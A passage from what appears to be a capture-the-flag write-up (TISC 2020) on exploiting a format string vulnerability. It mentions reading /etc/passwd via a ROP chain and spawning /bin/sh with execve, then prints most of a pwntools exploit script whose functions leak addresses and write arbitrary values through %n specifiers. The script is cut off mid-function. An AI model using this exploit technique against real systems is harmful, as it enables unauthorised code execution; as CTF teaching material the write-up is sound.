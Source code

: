 ![Reading /etc/passwd using the ROP chain]({{ site.url }}{{ site.baseurl }}/assets/images/tisc-2020/B3CC38BB296F726B4042160DBE66A5B0.jpg)

Eventually, after emulating the the environment on a VM, I realised that `system` was not working
for some reason. Instead, I went for `execve("/bin/sh", 0, 0)` instead and that solved the problems.

The full exploit is as follows:

```python
#!/usr/bin/python

from pwn import *
import pwnlib

#context.log_level = 'debug'
context.update(arch = 'amd64', os = 'linux')


def run_leak(p, payload):
    prefix = b"XXXX"
    postfix = b'ZZZZ'
    total = prefix + payload + postfix
    p.sendline(total)
    p.recvuntil(prefix)
    data = p.recvuntil(postfix)
    return data[:-4]

def adjust_bouncer(p, base, index, offset=0):
    # Adjust the value of index 39 to point at a particular index.
    address = base + (index * 8) + offset
    lower_address = address & 0xffff
    payload = b'%' + str(lower_address).encode('utf-8') + b'c%26$hn'
    p.sendline(payload)
    p.recv()

def leak_address(p, index):
    payload = ('%' + str(index) + '$p').encode('utf-8')
    r = run_leak(p, payload)
    address = int(r, 16)
    return address

def leak_data(p, index):
    payload = ('%' + str(index) + '$s').encode('utf-8')
    r = run_leak(p, payload)
    return r

def write_single(p, value, target_index=39):
    back_str = b'%' + str(target_index).encode('utf-8') + b'$hn'
    # Value must be a 2 bytes short
    if value > 0:
        payload = b'%' + str(value).encode('utf-8') + b'c' + back_str
    else:
        payload = back_str
    p.sendline(payload)
    p.recv()

def write_index(p, index_base, index, address):
    # Writes an arbitrary address to an index.
    if index == 39:
        # NOT ALLOWEEED
        return

    for i in range(0, 8, 2):
        current_portion = (address >> (i * 8)) & 0xffff
```
